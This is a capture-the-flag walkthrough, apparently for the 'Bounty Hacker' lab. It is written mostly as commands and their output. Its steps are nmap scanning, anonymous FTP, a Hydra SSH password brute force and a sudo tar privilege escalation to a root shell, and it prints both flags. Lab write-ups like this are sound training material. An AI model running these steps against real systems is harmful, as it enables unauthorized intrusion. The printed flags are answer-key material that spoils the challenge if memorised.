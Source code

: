 # Bounty-Hacker
Step by step, ooh, baby

```$ nmap -D RND:20 --open -sS -p- <ip>```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:48 -03
Nmap scan report for <ip>
Host is up (0.23s latency).
Not shown: 56227 filtered tcp ports (no-response), 9305 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

```$ nmap --open -sV -p21,22,80 <ip>```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:58 -03
Nmap scan report for <ip>
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.96 seconds

```$ ftp -p 21 <ip>```
anonymous

```$ ls -lha```
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt

```$ get locks.txt```
```$ get task.txt```

```$ cat task.txt```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```$ cat locks.txt```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
...

```$ hydra -l lin -P locks.txt <ip> ssh```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-14 22:04:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://<ip>:22/
[22][ssh] host: <ip>   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-14 22:04:40

```$ ssh -p 22 lin@<ip>```
RedDr4gonSynd1cat3

```$ ls -lha```
total 12K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt

```$ cat user.txt```
THM{CR1M3_SyNd1C4T3}

```$ sudo -l```
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
tar: Removing leading `/' from member names

```$ whoami```
root

```$ ls -lha /root```
total 40K
drwx------  5 root root 4.0K Jun  7  2020 .
drwxr-xr-x 24 root root 4.0K Jun  6  2020 ..
-rw-------  1 root root 2.7K Jun  7  2020 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Feb 26  2019 .cache
drwxr-xr-x  2 root root 4.0K Jun  7  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7  2020 root.txt
-rw-r--r--  1 root root   66 Jun  7  2020 .selected_editor
drwx------  2 root root 4.0K Jun  7  2020 .ssh

```$ cat /root/root.txt```
THM{80UN7Y_h4cK3r}


